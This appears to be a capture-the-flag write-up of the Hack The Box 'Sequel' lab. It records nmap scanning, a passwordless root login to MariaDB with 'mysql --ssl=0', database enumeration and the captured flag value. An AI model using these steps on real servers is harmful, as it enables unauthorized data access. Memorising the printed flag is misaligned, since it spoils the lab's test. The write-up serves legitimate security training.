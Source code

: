 # Sequel Writeup
**[Type: HTB | Lab]**  
**Date:** 2025-08-13  
**Difficulty:** Easy  
**Target IP/URL:** 10.129.191.109  
**Objective:** Learn basics of SQL injection and server-side injection  

---

## 1. Reconnaissance
**Tools & Commands Used:**
- Initial Nmap scan:
  ```bash
  nmap -sV -oN scan.txt -iL ip-address.txt
  ```
- Second Nmap scan with scripts:
  ```bash
  nmap -sC -sV -oN scan.txt -iL ip-address.txt
  ```

**Findings:**
- Port 3306: MariaDB 10.3.27-MariaDB-0+deb10u1 (Debian 10)  
  ![Nmap Scan](images/nmap-scan.png)

---

## 2. Enumeration
**Tools & Commands Used:**
- Service and version detection:
  ```bash
  nmap -sC -sV -oN scan.txt -iL ip-address.txt
  ```

**Findings:**
- Port 3306 open, running MySQL/MariaDB.  
  ![Nmap Second Scan](images/nmap-scan-2.png)

---

## 3. Exploitation
**Vulnerability Identified:**
- **Name:** Weak Authentication (No CVE)  
- **Why Vulnerable:** MariaDB allows root login without a password when SSL is disabled, indicating misconfiguration.

**Exploit Steps:**
- Attempted MySQL connection:
  ```bash
  mysql -h 10.129.191.109 -u root
  ```
  Output: `ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it`
- Connected with SSL disabled:
  ```bash
  mysql --ssl=0 -h 10.129.191.109 -u root
  ```
  Output:
  ```
  Welcome to the MariaDB monitor.  Commands end with ; or \g.
  Your MariaDB connection id is 132
  Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
  ```
  ![MySQL Connection](images/mysql-connection.png)

---

## 4. Privilege Escalation
**Method:**
- Direct root access via MySQL due to no password requirement.

**Commands & Output:**
- Commands executed:
  ```sql
  SHOW databases;
  USE <database_name>;
  SHOW tables;
  SELECT * FROM <table_name>;
  ```
- Result: Accessed database, listed tables, and retrieved data.  
  ![Show Databases](images/show-database.png)
  ![Show Tables](images/show-tables.png)
  ![Show Selected DB](images/show-selected-db.png)

---

## 5. Results
- **User Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`  
  ![Flag](images/flag.png)

---

## 6. Lessons Learned
**Key Takeaways:**
- MySQL connections may fail without `--ssl=0` due to SSL/TLS mismatches.
- **SSL/TLS**: Encrypts client-server communication to prevent eavesdropping and tampering, using a handshake for authentication and encryption.
- MySQL commands for enumeration:
  - `SHOW databases;`: Lists accessible databases.
  - `USE <database_name>;`: Selects a database.
  - `SHOW tables;`: Lists tables in the current database.
  - `SELECT * FROM <table_name>;`: Retrieves all data from a table.
- Weak authentication (e.g., no password) is a critical misconfiguration.

**Mistakes to Avoid:**
- Not checking for SSL/TLS requirements in MySQL connections.
- Overlooking open ports like 3306 during scanning.

**Tools/Techniques to Remember:**
- Used `mysql` client for database access.
- Nmap with `-sC` for script-based enumeration.

---

## 7. Images
- ![Nmap Scan](images/nmap-scan.png)
- ![Nmap Second Scan](images/nmap-scan-2.png)
- ![MySQL Connection](images/mysql-connection.png)
- ![Show Databases](images/show-database.png)
- ![Show Tables](images/show-tables.png)
- ![Show Selected DB](images/show-selected-db.png)
- ![Flag](images/flag.png)

---

## 8. References
- [MariaDB Documentation](https://mariadb.com/kb/en/) (MySQL Client)
- [Nmap Documentation](https://nmap.org/book/man.html) (Tool)
- [OWASP Top Ten 2021](https://owasp.org/Top10) (Injection Reference)
